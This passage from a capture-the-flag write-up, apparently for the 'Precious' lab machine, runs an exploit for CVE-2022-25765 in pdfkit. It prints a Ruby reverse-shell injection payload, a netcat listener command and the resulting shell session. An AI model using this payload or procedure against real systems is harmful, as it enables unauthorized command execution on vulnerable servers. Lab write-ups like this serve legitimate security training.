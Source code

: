 ```shell
python3 ./51293.py -p url -w http://precious.htb/ -s 10.10.14.13 4444
```

Result:

```text
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.13","4444"))'`
LOCALIP: 10.10.14.13:4444
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 4444".
WEBSITE: http://precious.htb/
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Result on the listener :

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:50958.
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

We get a shell on the target with user `ruby`.

## Post-Exploitation

### Host Reconnaissance

Exploring the home suer of this user `ruby`, we find some interesting files :

```shell
cd
ls -la
```

Result:

```text
total 28
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:17 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Apr 29 16:21 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```
